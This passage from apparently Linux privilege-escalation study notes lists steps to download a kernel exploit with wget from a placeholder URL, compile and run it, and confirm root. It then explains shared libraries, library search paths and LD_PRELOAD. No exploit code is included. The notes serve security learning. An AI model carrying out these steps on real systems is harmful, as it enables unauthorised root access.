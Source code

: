   1. Obtain PoC (example method mentioned):

```bash
wget <exploit_url>
```

2. Compile exploit and make executable:

```bash
gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
```

3. Run exploit:

```bash
./kernel_exploit
```

4. Confirm root:

```bash
whoami
```

* **Caution:** Kernel exploits can cause system instability — **use caution**, avoid running on production systems.

---

# 🧠 Shared Libraries in Linux

## 📚 Overview
- Linux uses **shared object libraries** to avoid redundant code across programs.
- Two types:
  - **Static libraries** (`.a`): compiled into the binary, cannot be changed.
  - **Dynamic libraries** (`.so`): loaded at runtime, can be modified.

## 📍 Library Location Methods
- Compiler flags: `-rpath`, `-rpath-link`
- Environment variables: `LD_RUN_PATH`, `LD_LIBRARY_PATH`
- Default directories: `/lib`, `/usr/lib`
- Config file: `/etc/ld.so.conf`

## 🔍 Viewing Linked Libraries
Use `ldd` to list shared libraries used by a binary:
```bash
ldd /bin/ls
```

## ⚠️ LD_PRELOAD Environment Variable
- Allows preloading a custom `.so` library before executing a binary.
- Overrides default functions with those in the specified library.

---
